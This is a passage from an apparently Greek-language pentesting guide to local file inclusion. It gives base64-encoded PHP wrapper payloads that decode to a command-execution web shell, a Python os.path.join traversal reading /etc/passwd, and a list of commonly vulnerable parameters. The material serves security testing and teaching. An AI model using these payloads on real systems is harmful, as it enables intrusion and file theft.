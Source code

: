 {% code overflow="wrap" %}
```
PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.txt
```
{% endcode %}

{% hint style="info" %}
Στον προηγούμενο κώδικα, το τελικό `+.txt` προστέθηκε επειδή ο επιτιθέμενος χρειαζόταν μια συμβολοσειρά που να τελειώνει σε `.txt`, έτσι ώστε η συμβολοσειρά να τελειώνει με αυτό και μετά την αποκωδικοποίηση b64, αυτό το μέρος θα επιστρέψει απλώς σκουπίδια και ο πραγματικός κώδικας PHP θα συμπεριληφθεί (και επομένως, θα εκτελεστεί).
{% endhint %}

Ένα άλλο παράδειγμα **χωρίς τη χρήση του πρωτοκόλλου `php://`** θα ήταν:

{% code overflow="wrap" %}
```
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt
```
{% endcode %}

## Python Root στοιχείο

Στην python σε έναν κώδικα όπως αυτός:
```python
# file_name is controlled by a user
os.path.join(os.getcwd(), "public", file_name)
```
Αν ο χρήστης περάσει μια **απόλυτη διαδρομή** στο **`file_name`**, η **προηγούμενη διαδρομή απλώς αφαιρείται**:
```python
os.path.join(os.getcwd(), "public", "/etc/passwd")
'/etc/passwd'
```
Είναι η προορισμένη συμπεριφορά σύμφωνα με [την τεκμηρίωση](https://docs.python.org/3.10/library/os.path.html#os.path.join):

> Αν ένα συστατικό είναι απόλυτη διαδρομή, όλα τα προηγούμενα συστατικά απορρίπτονται και η ένωση συνεχίζεται από το συστατικό της απόλυτης διαδρομής.

## Java Λίστα Καταλόγων

Φαίνεται ότι αν έχετε Path Traversal σε Java και **ζητήσετε έναν κατάλογο** αντί για ένα αρχείο, **επιστρέφεται μια λίστα του καταλόγου**. Αυτό δεν θα συμβαίνει σε άλλες γλώσσες (όσο γνωρίζω).

## Κορυφαίοι 25 παράμετροι

Ακολουθεί λίστα με τους κορυφαίους 25 παράμετρους που θα μπορούσαν να είναι ευάλωτοι σε τοπικές ευπάθειες συμπερίληψης αρχείων (LFI) (από [σύνδεσμο](https://twitter.com/trbughunters/status/1279768631845494787)):
```
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
```